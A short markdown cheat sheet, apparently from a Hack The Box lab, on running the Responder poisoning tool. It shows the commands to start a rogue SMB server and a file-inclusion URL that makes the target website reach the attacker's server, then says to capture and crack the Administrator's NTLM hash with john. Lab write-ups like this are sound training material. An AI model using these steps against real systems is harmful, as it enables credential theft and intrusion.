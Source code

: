 # Responder
﷽
* "Responder is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting NTLMv1/NTLMv2/LMv2, Extended Security NTLMSSP and Basic HTTP authentication."
## usage

* navigate to the directory it is in:
  * `cd ~/Responder/`

* verify it's set to listen to SMB requests:
  * `cat Responder.conf`

* start it with `python3`, using the `-I` flag to select the interface, and `-i` to select IP - eg.
  * `sudo python3 Responder.py -I tun0 -i 192.168.5.208` (note that the NI+IP can be checked by running `ifconfig`)
  * this starts the rogue SMB server

* now, visit the website and tell the server to include a resource from our rogue SMB server, eg.
  * `http://unika.htb/?page=//10.10.14.25/somefile`

* A NetNTLMv for the Administrator user should be received :)
* Use `john` to crack the hash

